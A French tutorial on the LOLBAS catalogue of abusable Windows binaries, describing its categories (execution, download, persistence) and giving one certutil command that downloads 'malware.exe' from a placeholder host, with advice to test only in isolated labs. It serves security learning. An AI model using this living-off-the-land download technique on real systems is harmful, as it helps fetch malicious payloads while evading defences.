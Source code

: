 # LOLBAS

#### **Tuto LOLBAS**

**Introduction**

LOLBAS (Living Off The Land Binaries and Scripts) est un référentiel en ligne qui recense les binaires, scripts, et bibliothèques Windows pouvant être détournés à des fins malveillantes ou pour des tests de sécurité.

**Accéder à LOLBAS**

* URL : [LOLBAS](https://lolbas-project.github.io)

**Fonctionnalités principales :**

* **Catalogue des binaires Windows abusables :** Une collection exhaustive de binaires et scripts légitimes intégrés à Windows qui peuvent être détournés.
* **Filtres par type :** Explorer les binaires, scripts, ou bibliothèques par catégories spécifiques.
* **Exemples détaillés :** Chaque binaire est accompagné de techniques exploitables pour des activités comme l'escalade de privilèges, l'exfiltration, ou la persistance.

**Comment utiliser LOLBAS**

1. **Rechercher un binaire/script :**
   * Accédez à [LOLBAS](https://lolbas-project.github.io).
   * Utilisez la barre de recherche ou parcourez les catégories pour trouver un binaire spécifique (ex. : `certutil`).
2. **Explorer les capacités :**
   * Cliquez sur le binaire pour voir les scénarios exploitables :
     * **Execution** : Utilisation du binaire pour exécuter des commandes arbitraires.
     * **Download** : Exploitation pour télécharger des fichiers à partir de l'Internet.
     * **Persistence** : Techniques pour maintenir l'accès au système.
3. **Exemple avec `certutil` :**
   *   Utilisation de `certutil` pour télécharger un fichier :

       ```cmd
       certutil.exe -urlcache -split -f http://example.com/malware.exe malware.exe
       ```
4. **Tester dans un environnement sécurisé :**
   * Ces techniques doivent être expérimentées dans un environnement contrôlé pour éviter tout impact négatif.

***

#### **Bonnes Pratiques pour les Deux Ressources :**

* **Utilisation Éthique :** Ces outils sont conçus pour l'apprentissage et les tests de sécurité éthiques uniquement.
* **Test en Environnement Sécurisé :** Utilisez des machines virtuelles ou des environnements isolés pour tester les scénarios.
* **Mises à Jour Régulières :** Consultez fréquemment ces référentiels, car de nouveaux outils et méthodes y sont régulièrement ajoutés.

